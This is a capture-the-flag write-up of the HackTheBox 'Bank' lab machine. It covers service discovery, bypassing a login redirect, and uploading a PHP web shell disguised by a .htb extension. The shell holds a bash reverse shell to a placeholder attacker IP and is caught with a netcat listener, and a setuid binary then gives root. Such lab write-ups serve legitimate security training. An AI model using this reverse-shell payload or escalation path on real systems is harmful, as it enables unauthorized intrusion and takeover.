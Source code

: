 ```yaml
---
title:  "Bank HackTheBox CTF Writeup"
date:   2017-09-19 15:04:23
categories: [CTF]
tags: [HackTheBox, CTF, Hacking, Ethical Hacking, WarGames]
---
```


![](https://cdn-images-1.medium.com/max/800/1*N6NIlAZNK8OtlOA-K3ep0g.png)

Check out [HackTheBox.eu](https://www.hackthebox.eu/)

Welcome to my write up for the Bank box from [HackTheBox.eu](https://www.hackthebox.eu/) !
Hack The Box is an online platform that allows you to test your penetration testing skills and exchange ideas and methodologies with other members of similar interests. It contains several challenges that are constantly updated.
As an individual, you can complete a simple challenge to prove your skills and then create an account, allowing you to connect to our private network (HTB Labs) where several machines await for you to hack them. By hacking machines you get points that help you advance in the Hall of Fame.
If you want to jack some boxes yourself, try to [hack the invite code](https://www.hackthebox.eu/invite) in order to become a member and get involved. It is a lot of fun!

Without any more talk, lets proceed to the Bank CTF and my writeup of the penetration tests I ran against it. Please comment with any questions!

Target Machine: **10.10.10.29**

## Service Discovery

nmap -A 10.10.10.29

    Host is up (0.23s latency).
    Not shown: 997 closed ports
    PORT STATE SERVICE VERSION
    22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    | 1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
    | 2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
    |_ 256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
    53/tcp open domain
    | dns-nsid:
    |_ bind.version: 9.9.5–3ubuntu0.14-Ubuntu
    80/tcp open http Apache httpd 2.4.7 ((Ubuntu))
    |_http-server-header: Apache/2.4.7 (Ubuntu)
    | http-title: HTB Bank — Logi
    |_Requested resource was login.php
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

And we can see that we have 3 services running ssh, dns and http. I tried accessing the web server by typing [http://10.10.10.29](http://10.10.10.29/) in the url bar but it was just the default apache site.
I saw that dns was open so I edited `/etc/hosts` to contain the ip of the machine plus the name server of the machine . The default name server for all *HackTheBox* machines is <name of box>.htb so I edited the hosts file as followed


    cat /etc/hosts
    127.0.0.1 localhost
    127.0.1.1 Debian
    # The following lines are desirable for IPv6 capable hosts
    ::1     ip6-localhost ip6-loopback
    fe00::0 ip6-localnet
    10.10.10.29 bank.htb

Now 10.10.10.29 resolves to bank.htb. I tried to do a zone transfer with dig but that didn’t give me any information, so I accessed bank.htb and we were automatically redirected to `bank.htb/login.php` it was a login page for the bank site, I used curl to see what was in `bank.htb/` because I couldn’t access the root directory of the site it would always redirect me to `/login.php` with `curl -v` `[http://bank.htb](http://bank.htb/)` you can see all the html source code for root directory of the site. Also it indicated that there was a 302 redirect.


    < HTTP/1.1 302 Found
    < Date: Fri, 25 Aug 2017 15:50:33 GMT
    < Server: Apache/2.4.7 (Ubuntu)
    < X-Powered-By: PHP/5.5.9–1ubuntu4.21
    < Set-Cookie: HTBBankAuth=mipq942thbgb8h1vuf94ck3u01; path=/
    < Expires: Thu, 19 Nov 1981 08:52:00 GMT
    < Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    < Pragma: no-cache
    < location: login.php
    < Content-Length: 7322
    < Content-Type: text/html

I then used DirBuster to find new files and directory in bank.htb. Most of the files and folders were 403,302 some 200 I found and interesting file named support and it was 200, so I tried accessing it but were being redirected to /login.php once again. So I installed this plugin on firefox called noredirect which allows to me stop any 302 redirections. For those who couldn’t get Noredirect installed on firefox because of the firefox version was outdated there was an option to install anyway at the bottom of the page. Alternatively could’ve used either Burpsuite or Zap-Proxy to catch the request and send it through as a 200 request.

![](https://cdn-images-1.medium.com/max/800/1*IisHUuXMYbKJMgCE9FNYEw.png)


I added [http://bank.htb/login.php](http://bank.htb/login.php) to the noredirect plugin so it would stop redirecting to /login.php everytime. Now I’m able to access [http://bank.htb/](http://bank.htb/)and we can see the transactions at the bank, and some other information… If we now go to /support.php we can see you can upload “tickets” as images, if you `curl` `[http://bank.htb/support.php](http://bank.htb/support.php)` and scroll through the html code you can see that the admin left him self a little nice note for himself.
***“<! — [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] →”***

I created a php shell as followed

    <?php
    exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.x.x/4444 0>&1’”);

and named it shell.php I tried uploading it as shell.php but the site only wanted images uploaded. Then I remember that .htb runs as php so I added the .htb extension for my php shell since it can execute as php “for debugging purposes” and the shell it’s uploaded. Now all I had to do is set up a netcat listener to catch the shell. `nc -l -v -p 4444`
once we catch the shell we go into the box as `www-data` in the directory `/var/www/bank/uploads/`


    www-data@bank:/var/www/bank/uploads$

We can go into the user’s home directory chris and get the user flag user.txt,
***Got User Flag!***
Now time it’s time for privilege escalation. I started by just browsing through the directories and in /var I found a folder named htb inside htb I found two files with execute permissions.


    www-data@bank:/var/htb$ ls -la
    total 16
    drwxr-xr-x 3 root root 4096 Jun 14 18:25 .
    drwxr-xr-x 14 root root 4096 May 29 18:41 ..
    drwxr-xr-x 2 root root 4096 Jun 14 18:30 bin
    -rwxr-xr-x 1 root root 356 Jun 14 18:30 emergency

It seems like the system administrator has left an emergency exploit in case he forgets the root password of the system…

My privilege before running the exploit

    uid=33(www-data) gid=33(www-data) groups=33(www-data)

My privileges after running the emergency exploit
./emergency

    uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)

and now we can get the root flag. `cat /root/root.txt`

***Got Root Flag!***

You can follow me on twitter [@0katz](https://www.twitter.com/0katz)

## #TogetherWeHitHarder

